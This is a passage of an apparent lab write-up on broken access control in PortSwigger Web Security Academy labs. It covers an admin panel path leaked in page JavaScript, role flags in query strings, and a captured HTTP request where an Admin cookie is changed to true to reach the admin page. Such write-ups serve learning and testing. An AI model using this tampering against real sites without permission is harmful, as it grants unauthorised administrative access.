  This script adds a link to the user's UI if they are an admin user. However, the script containing the URL is visible to all users regardless of their role. 

##### solve lab

In the login page, if you view the source code of the page, it will show that the JavaScript code contains the path of the admin panel![Screenshot from 2023-08-05 12-23-45](https://github.com/MohammedHawary/CTF-Challenges-Writeups/assets/94152045/afb96e8f-15bc-493c-bc5f-b67632503b18)

```html
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-54cbwd');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

### Parameter-based access control methods

Some applications determine the user's access rights or role at login, and then store this information in a user-controllable location, such as a `hidden field`, `cookie`, or preset query `string parameter`. The application makes subsequent access control decisions based on the submitted value.

For example:

```
https://insecure-website.com/login/home.jsp?admin=true
https://insecure-website.com/login/home.jsp?role=1
```

This approach is insecure as users can modify the value and gain unauthorized access to functionalities, including administrative functions.

#### EX1: User role controlled by request parameter

**https://example.net/login**

After logging in I went to this path `/admin` and i saw this message

**Admin interface only available if logged in as an administrator** 

I captured this request and i found cookie called `Admin=fales` which I changed to `Admin=true` and got to this page as admin

```log
GET /admin HTTP/2
Host: 0ad000f504325ba38576bdc200d90075.web-security-academy.net
Cookie: session=sF3RDQmcftr8QLFDacOMRkOP0K3VsGPg; Admin=true
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad000f504325ba38576bdc200d90075.web-security-academy.net/admin
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
